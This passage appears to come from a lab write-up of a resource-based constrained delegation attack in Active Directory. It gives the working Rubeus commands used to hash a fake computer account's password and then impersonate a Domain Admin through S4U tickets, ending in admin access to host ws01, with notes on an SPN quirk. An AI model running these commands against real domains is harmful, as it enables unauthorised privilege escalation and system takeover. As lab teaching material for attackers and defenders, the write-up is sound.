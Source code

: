 Let's generate the RC4 hash of the password we set for the `FAKE01` computer:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-46-25.png>)

### Impersonation

Once we have the hash, we can now attempt to execute the attack by requesting a kerberos ticket for `fake01$` with ability to impersonate user `spotless` who is a Domain Admin:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:cifs/ws01.offense.local /ptt
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 23-40-45.png>)

Unfortunately, in my labs, I was not able to replicate the attack at first, even though according to rubeus, all the required kerberos tickets were created successfully - I could not gain remote admin on the target system `ws01`:

![](<../../.gitbook/assets/Screenshot from 2019-03-26 23-40-57.png>)

Once again, checking kerberos tickets on the system showed that I had a TGS ticket for `spotless` for the CIFS service at `ws01.offense.local`, but the attack still did not work:

![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-01-23.png>)

### Trial and Error

Talking to a couple of folks who had successfully simulated this attack in their labs, we still could not figure out what the issue was. After repeating the the attack over and over and carrying out various other troubleshooting steps, I finally found what the issue was.

Note how the ticket is for the SPN `cifs/ws01.offense.local` and we get access denied when attempting to access the remote admin shares of `ws01`:

![](<../../.gitbook/assets/Screenshot from 2019-03-31 13-16-17.png>)

### Computer Take Over

Note, howerver if we request a ticket for SPN `cifs/ws01` - we can now access `C$` share of the `ws01` which means we have admin rights on the target system `WS01`:

```csharp
\\VBOXSVR\Tools\Rubeus\Rubeus.exe s4u /user:fake01$ /domain:offense.local /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:http/ws01 /altservice:cifs,host /ptt
```

![](<../../.gitbook/assets/Screenshot from 2019-03-31 13-31-17.png>)
